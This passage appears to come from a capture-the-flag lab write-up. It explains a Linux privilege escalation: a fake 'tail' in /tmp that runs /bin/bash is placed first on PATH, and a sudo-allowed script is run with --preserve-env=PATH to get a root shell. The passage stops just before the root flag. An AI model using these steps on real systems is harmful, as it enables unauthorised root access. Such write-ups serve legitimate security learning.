 Execute the script will execute `tail` in `/usr/bin` because it will look into `/usr/bin` first, then `/tmp` if `tail` doesn't exist in `/usr/bin`. So if we set PATH into:

```
PATH=/tmp:/usr/bin
```

Execute the script will execute `tail` in `/tmp`, where we can arbitrary write anything we want. So we will fake a `tail` binary. We will create a file `/tmp/tail` with the following content:

```
/bin/bash
```

![](images/create-fake-tail.png)

Now we will export `/tmp` path to the PATH environment and set the file `tail` to executable:

```cmd
export PATH=/tmp:$PATH
chmod +x /tmp/tail
```

Finally, we will execute the script `/usr/bin/check_syslog.sh` with sudo permission BUT with a parameter to preserve the PATH environment:

```cmd
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

![](images/get-root-shell.png)

Now we can get root flag:
